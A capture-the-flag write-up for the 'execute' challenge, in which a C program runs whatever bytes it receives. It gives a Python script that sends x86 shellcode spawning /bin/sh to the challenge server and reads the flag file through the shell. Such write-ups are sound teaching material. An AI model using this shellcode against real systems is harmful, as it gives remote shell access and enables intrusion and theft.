

execute
=======

Flag: **well_that_executed_quickly**

The challenge flavortext says "This [program](execute.c "execute.c")
(x86 Linux) will execute everything you give him, can you find the
flag? `nc ctf.stratum0.net 3333`".

The linked source code shows a short program that reads data from
`stdin` into a buffer and then jumps to and executes the contents of
that buffer:

    #include <stdio.h>

    int main(int argc, char *argv[]) {
      char buf[0x1000];
      fgets(buf, sizeof(buf), stdin);
      ((void (*)(void)) buf)();
    }

A flag is stored somewhere on the filesystem of the machine hosting
this networked program, so we'd like to send the program a payload
that will spawn a shell, then use the shell to locate and retrieve the
contents of that flag file.

Using any old shellcode will do:

    import socket

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('ctf.stratum0.net', 3333))

    shellcode = "\xb8\x32\x2f\x73\x68\xc1\xe8\x08\x50\x68\x2f\x62\x69\x6e\x89\xe3\x31\xd2\x52\x53\x89\xe1\x89\xd0\x04\x0b\xcd\x80\n"
    s.send(shellcode)
    print "sent shellcode"
    s.send("ls\n")
    print s.recv(4096)
    s.send("cat flag.txt\n")
    print s.recv(4096)

Running our exploit, we get:

    $ python exploit_networked.py
    sent shellcode
    execute # Output of ls
    flag.txt

    flag{well_that_executed_quickly} # Output of cat.

The flag is thus `well_that_executed_quickly`.
